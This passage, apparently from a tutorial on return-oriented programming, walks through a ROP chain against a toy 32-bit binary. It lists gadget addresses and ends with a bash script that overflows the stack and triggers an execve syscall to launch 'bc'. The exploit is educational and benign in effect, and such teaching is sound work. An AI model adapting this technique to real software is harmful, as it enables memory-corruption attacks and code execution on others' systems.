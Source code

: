 Now we need to pad the stack with the data that will be popped into EBX, ESI, EDI, and EBP. We don't really care what finds its way into those registers at this point, so we'll just use sixteen bytes of meaningless padding. The string

```
This is padding.
```

will do. Next, we need to increment EAX up to 11. This can be done with eleven applications of the mercifully simple gadget

```
0x0807c0f9 : 
  nop
  inc eax
  ret
```

Next, we need to load the ECX register with a pointer to a NULL pointer (since we're going to be lazy, and omit any command line parameters, including the name of the program), and load the EBX register with a pointer to the string "bc". A full path would be preferable, but it would take more time to craft a chain that constructed the string "/usr/bin/bc", and it's easier to just copy the **bc** binary to the current directory, first. And as luck would have it, the string "bc" is _already_ mapped to the .rodata section of memory by the binary, like the letters of a ransom note, at the end of the string "libc", which sits at address 0x080be4dc. Incrementing that address by 2 gives us a pointer to the null-terminated string "bc\x00", which is just what we need. 

```
0x0806ecd2 : 
  pop ecx
  pop ebx
  ret
  
0x0804bad4 : pointer to NULL

0x080be4dc : pointer to "bc\x00"
```

Finally, we need a pointer to an "int 0x80" instruction, to actually perform the syscall:

```
0x0806f60f :
  nop
  int 0x80
```


Now we just need to put it all together. 

```sh
P=1234567890123456789012  # smash the stack
P=${P}$'\x23\xcf\x05\x08' # zero edx and eax
P=${P}'This is padding.'  # that was padding
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xd2\xec\x06\x08' # load parameters
P=${P}$'\xd4\xba\x04\x08' # pointer to NULL
P=${P}$'\xde\xe4\x0b\x08' # pointer to "bc"
P=${P}$'\x0f\xf6\x06\x08' # system call

./hello "$P"
```